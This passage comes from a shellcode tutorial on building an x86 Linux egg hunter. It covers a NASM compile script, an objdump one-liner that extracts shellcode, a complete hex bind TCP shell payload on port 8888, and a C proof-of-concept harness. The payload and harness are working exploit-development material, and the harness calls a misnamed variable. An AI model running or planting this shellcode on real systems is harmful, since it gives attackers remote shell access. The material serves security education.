 It would be possible to reduce the size of the code from 35 bytes to 34 bytes, but this would require to slow down the speed of the *egg hunter*. The solution would be to change the line 18 to **lea ebx,[edx]**.

## Executing the Code
To compile the NASM file with the egg hunter code, the following bash script is used.

````
#!/bin/bash
#Example of execution: ./compile.sh egg_hunter

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

Then it is necessary to obtain the shellcode of the program using the following command: ``objdump -d ./egg_hunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'``

After that, it is necesary to repeat the process with the desired payload to execute. In this case, the *bind TCP shellcode* will be used: 
````
"\x99\x52\x6a\x01\x5b\x53\x6a\x02\x6a\x66\x58\x89\xe1\xcd\x80\x43\x52\x66\xbe\x22\xb8\x56\x66\x53\x89\xe1\x6a\x10\x51\x50\x89\xe1\x5f\xb0\x66\xcd\x80\x43\x43\x52\x52\x57\x89\xe1\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
````
``Shellcode for Bind TCP Shell on port 8888``

Using this information, it is possible to generate a PoC on C language.

````
#include <stdio.h>
#include <string.h>

unsigned char egg_hunter[] =  
"EGG_HUNTER_SHELLCODE";

unsigned char shellcode[] = 
"\x72\x34\x33\x46\x72\x34\x33\x46" //F34rF34r
"PAYLOAD_DESIRED";

int main(void)
{
    printf("Egghunter length: %d\n", strlen(egg_hunter));
    printf("Shellcode length: %d\n", strlen(shellcode));
    (*(void(*)(void))egghunter)();
    return 0;
}
````
``shellcode.c``
